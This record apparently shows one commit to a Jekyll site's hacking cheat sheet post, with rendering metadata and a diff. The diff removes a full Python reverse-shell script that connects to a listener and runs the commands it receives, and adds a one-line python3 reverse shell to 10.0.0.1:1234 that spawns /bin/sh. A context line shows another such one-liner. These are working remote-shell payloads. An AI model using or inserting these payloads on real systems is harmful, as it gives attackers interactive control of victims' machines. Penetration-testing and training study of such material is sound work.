

Before and after one commit to datahackare/warz0ne, a Jekyll site: the page built from _posts/2021-03-31-CheatSheet.md, in a window 1280 px wide and 1400 px high, scrolled down 7657 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2021-03-31-CheatSheet.md

````diff
--- a/_posts/2021-03-31-CheatSheet.md
+++ b/_posts/2021-03-31-CheatSheet.md
@@ -418,34 +418,7 @@ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOC
 Python3
 
 ```
-#!/usr/bin/python
-
-import os
-import socket
-import subprocess
-
-HOST = '192.168.1.100' # The ip of the listener.
-PORT = 4444 # The same port as listener.
-
-s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
-s.connect((HOST, PORT)) # Connect to listener.
-s.send(str.encode("[*] Connection Established!")) # Send connection confirmation.
-
-while 1: # Start loop.
-    data = s.recv(1024).decode("UTF-8") # Recieve shell command.
-    if data == "quit":
-        break # If it's quit, then break out and close socket.
-    if data[:2] == "cd":
-        os.chdir(data[3:]) # If it's cd, change directory.
-    # Run shell command.
-    if len(data) > 0:
-        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
-        stdout_value = proc.stdout.read() + proc.stderr.read() # Read output.
-        output_str = str(stdout_value, "UTF-8") # Format output.
-        currentWD = os.getcwd() + "> " # Get current working directory.
-        s.send(str.encode(currentWD + output_str)) # Send output to listener.
-
-s.close() # Close socket.
+python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 ```
 
 PHP
````
